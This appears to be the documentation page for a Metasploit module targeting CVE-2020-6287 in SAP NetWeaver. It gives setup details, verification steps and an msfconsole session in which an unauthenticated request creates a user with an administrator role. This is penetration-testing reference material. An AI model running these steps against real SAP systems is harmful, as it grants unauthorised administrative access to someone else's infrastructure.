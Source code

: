## Vulnerable Application

This module leverages an unauthenticated web service to submit a job which will create a user with a specified role. The
job involves running a wizard. After the necessary action is taken, the job is canceled to avoid unnecessary system
changes.

SAP NetWeaver NetWeaver versions 7.30 through 7.50 are affected by this vulnerability. An Amazon Machine Image (AMI) for
Amazon Web Services (AWS) can be used as a testing environment. One such image is provided by Linke IT America LLC and
is available on the [AWS Marketplace][1] with installation instructions posted to their [blog][2].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

If the password does not meet the requirements (e.g. the value is too short), the server will respond with an error
message and the Metasploit module will need to be rerun.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use auxiliary/admin/sap/cve_2020_6287_ws_add_user`
  1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
  1. Run the module and wait a few seconds
  1. Once the "PCK Upgrade" job has been canceled, log in with the created credentials

## Options

### ROLE

The role to assign to the user in the system. This value is "Administrator" by default. If the role does not exist, then
execution will fail. For more information on users and roles, see the [SAP documentation][3].

From the documentation:
> Standard UME roles include such actions. The UME role Administrator includes Manage_ All, which enables you to display
> and change everything. By default, administrator roles are only assigned to administrators.

## Scenarios

### SAP NetWeaver 7.50

For example, adding a new user `metasploit` with the `Administrator` role:

```
msf5 > use auxiliary/admin/sap/cve_2020_6287_ws_add_user 
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set RHOSTS netweaver.lan
RHOSTS => netweaver.lan
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set USERNAME metasploit
USERNAME => metasploit
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set PASSWORD 0pe3nS3sam3
PASSWORD => 0pe3nS3sam3
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set VERBOSE true
VERBOSE => true
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > run
[*] Running module against 192.168.53.183

[*] Starting the PCK Upgrade job...
[+] Job running with session id: 2c139ded-287f-4c21-a5ef-4c379abcbe22
[*] Received event description: Execution of User Management
[*] Received event description: Create User PCKUser
[*] Received event description: Assign Role SAP_XI_PCK_CONFIG to PCKUser
[*] Canceling the PCK Upgrade job...
[*] Auxiliary module execution completed
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) >
```

[1]: https://aws.amazon.com/marketplace/seller-profile?id=56cbce49-5486-4a83-a6b7-0fea3841da1b
[2]: https://docs.linkeit.com/amis/catalog/sap_ready_ami_installation_guide_nw750java_susesyb/
[3]: https://help.sap.com/doc/saphelp_nw73ehp1/7.31.19/en-US/4a/6e8a7ab94e4d27e10000000a42189b/frameset.htm

